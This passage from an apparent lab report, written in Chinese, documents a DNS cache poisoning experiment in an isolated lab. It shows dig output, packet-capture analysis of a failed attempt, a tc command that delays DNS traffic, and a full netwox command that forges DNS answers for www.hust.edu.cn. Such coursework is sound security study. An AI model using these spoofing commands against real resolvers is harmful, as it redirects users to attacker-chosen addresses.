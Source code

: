 ```shell

## 多次尝试后成功的查询，结果正确
root@DNS_User:/# dig www.hust.edu.cn

; <<>> DiG 9.10.3-P4-Ubuntu <<>> www.hust.edu.cn
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 807
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 4

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;www.hust.edu.cn.		IN	A

;; ANSWER SECTION:
www.hust.edu.cn.	7200	IN	A	202.114.0.245

;; AUTHORITY SECTION:
hust.edu.cn.		172800	IN	NS	dns2.hust.edu.cn.
hust.edu.cn.		172800	IN	NS	dns1.hust.edu.cn.

;; ADDITIONAL SECTION:
dns1.hust.edu.cn.	172800	IN	A	202.114.0.120
dns1.hust.edu.cn.	172800	IN	AAAA	2001:250:4000:2002::888
dns2.hust.edu.cn.	172800	IN	A	59.172.234.181

;; Query time: 2737 msec
;; SERVER: 172.18.0.3#53(172.18.0.3)
;; WHEN: Sat Apr 30 19:42:53 CST 2022
;; MSG SIZE  rcvd: 158
```

![1.4.2.失败的查询](https://raw.githubusercontent.com/BIIIANG/pic/main/202204301954253.png)

![1.4.3.成功的查询，但攻击失败](https://raw.githubusercontent.com/BIIIANG/pic/main/202204301954493.png)

- 此时的攻击失败的现象与`0.3.5 测试DNS服务器`相似，观察使用`Wireshark`获取的数据包（见`1.4.1-失败的DNS缓存中毒攻击.pcapng`），并于未开启攻击时的数据包（见`1.4.2-正常情况下的DNS数据包.pcapng`）进行比对。在`1.2-失败的DNS缓存中毒攻击.pcapng`中，数据包`3`为攻击目标`DNS`服务器向外部`DNS`服务器询问`www.hust.edu.cn`的`IP`，而数据包`7`即为外部`DNS`服务器的响应，该响应中没有任何有效响应信息，因此判断不是由`netwox`发送的伪造响应。二者之间的时间间隔仅为`0.026652004`秒，推测是外部`DNS`服务器的响应过于迅速，导致`netwox`的欺骗响应不能在真正的响应之前到达，导致攻击失败。外部`DNS`服务器的响应如下**（注：此处原因判断错误，真正失败原因见后续实验）**：

![1.4.4.快速响应的外部DNS报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204301954078.png)

- 为了解决上述攻击失败的问题，在攻击机上使用流量控制工具`TC`对`DNS`服务器`172.18.0.3`与外部`DNS`服务器间的流量进行延时，以提高攻击成功的概率：`sudo tc qdisc add dev ens33 root netem delay 1s`，[该命令](https://netbeez.net/blog/how-to-use-the-linux-traffic-control/)的含义如下（见[`man tc`](https://man7.org/linux/man-pages/man8/tc.8.html)）：
  - `qdisc`：`queueing discipline`；
  - `add`：`Add a qdisc, class or filter to a node`；
  - `dev ens33`：访问外部网络的网卡；
  - `root`：`In the absence of classful qdiscs, classless qdiscs can only be attached at the root of a device.`
  - `netem`：`Network Emulator, an enhancement of the Linux traffic control facilities that allow to add delay, packet loss, duplication and more other characteristics to packets outgoing from a selected network interface`；
  - `delay 1s`：添加`1s`的延时；
  - 注：解除该延时规则的命令为`sudo tc qdisc del dev ens33 root`，查看当前`TC`条目的命令为`tc qdisc show dev ens33`。
- 添加以上延时并清除`DNS`服务器的缓存后，再次使用`netwox`伪造`www.hust.edu.cn`的`IP`地址：`sudo netwox 105 -h "www.hust.edu.cn" -H "172.18.0.1" -a "ns.hust.edu.cn" -A "201.91.180.3" -d br-e4a075733e38 -T 11803 -f "src host 172.18.0.3" -s "raw"`。
- 然后在客户机使用`dig www.hust.edu.cn`进行`DNS`请求，现象与未添加延时时相似，只是得到正确解析的速度稍慢，攻击仍然没有成功。